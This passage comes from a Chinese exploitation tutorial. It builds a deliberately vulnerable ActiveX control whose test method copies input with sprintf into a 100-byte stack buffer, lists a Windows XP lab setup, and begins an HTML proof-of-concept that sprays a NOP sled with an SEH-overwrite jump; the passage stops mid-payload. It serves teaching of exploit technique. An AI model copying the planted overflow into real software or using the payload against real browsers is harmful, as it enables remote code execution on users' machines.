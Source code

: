 建立好控件工程后，使用类视图中的"VulnerAX_SEHLib->DVulnerAX->Add->Add Method"，添加一个可以在Web页面中调用的接口函数，函数返回类型为void，函数名为test，参数类型为BSTR，参数名为str

VulnerAX_SEHCtrl.cpp中的test函数
<pre><code>
DWORD MyException(void)
{
	printf("There is an exception");
	getchar();
	return 1;
}

// CVulnerAX_SEHCtrl message handlers

void CVulnerAX_SEHCtrl::test(LPCTSTR str)
{
	//AFX_MANAGE_STATE(AfxGetStaticModuleState());
	// TODO: Add your dispatch handler code here
	printf("aaaa");		//定位该函数的标记
	char dest[100];
	sprintf(dest, "%s", str);
	int zero = 0;
	__try
	{
		zero = 1/zero;
	}
	__except(MyException())
	{
	}
}

</code></pre>

<b>实验环境：</b>

||推荐使用环境|备注|
|--|--|--|
|操作系统|Windows XP SP3||
|编译器|Visual Studio 2008| |
|优化|<font color=#f00>禁用优化选项</font>| |
|MFC|在静态库中使用MFC|工程属性->General->Use of MFC|
|字符集|使用Unicode字符集|工程属性->General->Character Set|
|build版本|release版本| |

编译好控件之后，在实验机器上注册该ActiveX控件.regsvr32

#### 6.3 POC

<pre><code>
&lt;html&gt;
&lt;body&gt;
&lt;embed src="map.swf" quality="high" type="application/x-shockwave-flash" width="160"
height="260"&gt;&lt;/embed&gt;
&lt;object classid="clsid:F010E769-5E95-4DBB-943D-AF2D1FE10C34" id="test"&gt;&lt;/object&gt;
&lt;script&gt;
var s = "\u9090";
while (s.length &lt; 60) {
    s += "\u9090";
}
s += "\u0EEB\u9090";
s += "\uA0C6\u021D";
s += "\u9090\u9090\u9090\u9090";